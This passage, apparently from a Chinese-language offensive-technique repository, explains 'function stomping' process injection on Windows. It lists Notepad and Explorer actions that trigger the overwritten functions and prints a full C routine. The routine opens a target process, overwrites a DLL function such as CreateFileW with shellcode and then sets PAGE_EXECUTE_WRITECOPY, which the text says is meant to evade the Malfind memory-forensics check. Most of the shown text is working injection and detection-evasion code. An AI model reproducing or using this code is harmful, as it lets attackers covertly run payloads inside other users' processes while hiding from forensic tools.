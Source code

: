 ```c
    0,
    NULL
);
```

**关键点**：
- `pCreateFileW` 指向的地址已被 shellcode 覆盖
- 调用 `CreateFileW` 实际上执行 shellcode
- Shellcode 可以忽略参数，直接执行 payload

### 自动触发场景

**Notepad.exe**:
- `CreateFileW` - File → Open
- `MessageBoxW` - Help → About

**Explorer.exe**:
- `CreateFileW` - 打开任何文件/文件夹
- `FindFirstFileW` - 浏览文件夹

## 实现细节

### 核心代码分析

**function_stomping.c** (techniques/29-function-stomping/src/function_stomping.c:70-139)

```c
BOOL FunctionStompingInjection(DWORD targetPid, unsigned char* shellcode, SIZE_T shellcodeSize,
                                const wchar_t* moduleName, const char* functionName) {
    // 1. 打开目标进程
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPid);

    // 2. 枚举模块找到目标 DLL
    HMODULE hTargetModule = FindModuleInProcess(hProcess, moduleName);

    // 3. 获取函数地址
    HMODULE hLocalModule = LoadLibraryW(moduleName);
    FARPROC functionAddr = GetProcAddress(hLocalModule, functionName);

    // 计算远程进程中的函数地址（基址 + 偏移）
    SIZE_T offset = (SIZE_T)functionAddr - (SIZE_T)hLocalModule;
    LPVOID remoteFunctionAddr = (LPVOID)((SIZE_T)hTargetModule + offset);

    // 4. 修改保护为 RW
    DWORD oldProtect;
    VirtualProtectEx(hProcess, remoteFunctionAddr, shellcodeSize,
                     PAGE_EXECUTE_READWRITE, &oldProtect);

    // 5. 覆盖函数为 shellcode
    WriteProcessMemory(hProcess, remoteFunctionAddr, shellcode, shellcodeSize, NULL);

    // 6. 修改保护为 WCX（绕过 Malfind）
    VirtualProtectEx(hProcess, remoteFunctionAddr, shellcodeSize,
                     PAGE_EXECUTE_WRITECOPY, &oldProtect);  // ← 关键

    return TRUE;
}
```
